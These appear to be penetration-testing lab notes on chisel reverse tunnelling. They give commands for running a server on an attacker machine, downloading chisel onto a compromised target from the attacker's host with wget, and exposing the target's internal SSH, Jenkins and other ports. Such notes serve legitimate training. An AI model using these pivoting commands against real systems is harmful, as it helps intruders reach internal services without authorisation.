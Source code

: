```
# FIRST on attacker machine run this:
chisel server -p 8003 --reverse 

On the 172.16.2.10 machine run this:
chisel client 10.10.14.13:8003 R:0.0.0.0:2222:172.16.2.17:22

Now try to nmap yourself and see if port 2222 is open which should be the ssh port of 172.16.2.17
nmap 127.0.0.1 -p 2222

Now run ssh to your localhost.
ssh testuser@127.0.0.1 -p 2222
```

Here is another scenario where you run `netstat -tulnp`, there might be an open port that you couldn't find in your initial scans. You can try to expose that port to be scanned locally with the following steps:
```
# Attacker machine
chisel server --reverse --port 51234

# Target machine - run chisel to connect back to our attacker IP
wget http://KALI_IP/chisel_1.9.1_linux_amd64 -O chisel
chmod +x chisel
chisel client KALI_IP:51234 R:65432:127.0.0.1:65432
```

Now you can run nmap on port 65432 locally with the following:
```
nmap -p 65432 127.0.0.1 -A
```

Here is another example scenario where you run netstat to see a Jenkin's server running on port 8080 internally on the target but need to do local port forwarding in order to access it on your browser:
```
NOTE: Doesn't require running a tor server if it's just one machine you have direct access to.

Attacker Machine (Me)
chisel server --port 8001 --reverse

Target Machine
chisel client 192.168.45.172:8001 R:8085:127.0.0.1:8080

or after file transfer of chisel to the target --
/tmp/chisel client 192.168.45.172:8001 R:8085:127.0.0.1:8080

^^ Basically I'm doing a local port forward with the above command to get the chisel client on the target machine to connect back to me, that's my attacker IP with the 192.* IP. 

My chisel server is running on 8001 so it will connect to that and basically it will make the port 8080 on the target machine appear on my local machine as port 8085 so I can access the Jenkins server on my local machine at 127.0.0.1:8085 - next, browse to that IP and port via your web browser of choice.
```
